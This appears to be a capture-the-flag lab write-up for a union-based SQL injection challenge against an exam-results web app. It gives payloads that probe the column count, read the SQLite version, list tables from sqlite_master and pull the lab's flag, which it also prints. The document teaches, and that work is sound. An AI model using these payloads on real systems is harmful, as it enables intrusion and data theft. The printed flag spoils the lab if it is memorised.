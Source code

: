 ﻿![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Results Portal: Union Based SQLi </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=2006> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">OWASP Top 10: Single Page Applications </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Interacting with the Exam Results webapp. 

When the lab starts up, the Exam Results webapp opens up in the browser: 

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.003.jpeg)

Enter any random roll number and see the result for it: ![ref2]

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.005.jpeg)

**Step 2:** Send a SQL Injection payload to the webapp. **Payload:** a' or '1'='1' -- 

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.006.jpeg)

The above payload would result in a true statement and thus get all the records from the database. 

**Step 3:** Send a Union Based SQLi payload to determine the version of SQLite. **Payload:** a' or '1'='1' union select 1 -- ![ref2]

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.007.png)

**Payload:** a' or '1'='1' union select 1,2,3 -- 

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.008.png)

**Payload:** a' or '1'='1' union select 1,2,3,4,5 -- 

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.009.jpeg)

So, the number of rows in the result on the left side must be 5. Notice that in the response, 2nd entry is not retrieved. ![ref2]

Send the following payload to retrieve the SQLite version: **Payload:** a' or '1'='1' union select sqlite\_version(),2,3,4,5 -- 


![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.010.png)

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.011.png)

**SQLite version:** 3.22.0 

**Step 4:**  Send a Union Based SQLi payload to determine the name and schema of the tables stored in the database. 

Use the following payload  

**Payload:** a' or '1'='1' union select tbl\_name,2,3,4,5 from sqlite\_master -- 

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.012.jpeg)

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.013.png)

There are 2 tables stored in the database: results and secret\_flag. ![ref2]

![ref1]

Use the following payload to determine the SQL command used to construct the tables: **Payload:** a' or '1'='1' union select sql,2,3,4,5 from sqlite\_master -- 

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.014.jpeg)

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.015.png)

Notice the last 2 entries. They contain the SQL commands used to construct the results and the secret\_flag tables. 

**Step 5:** Retrieving the secret flag. 

Use the following payload to retrieve the secret flag: 

**Payload:** a' or '1'='1' union select flag,2,value,4,5 from secret\_flag -- ![ref2]

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.016.jpeg)

![](Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.017.png)

**Flag:** THIS\_IS\_THE\_FLAG\_da60b8d2972a 

Notice that the above payload doesn’t use the second column to retrieve the data. Instead, the third column because as seen before, the second column never shows up in the result! 

**References:** 

1. OWASP Top 10 (<https://owasp.org/www-project-top-ten/>) ![ref2]
1. Injection ([https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Inject ion](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)) 

[ref1]: Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.002.png
[ref2]: Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.004.png

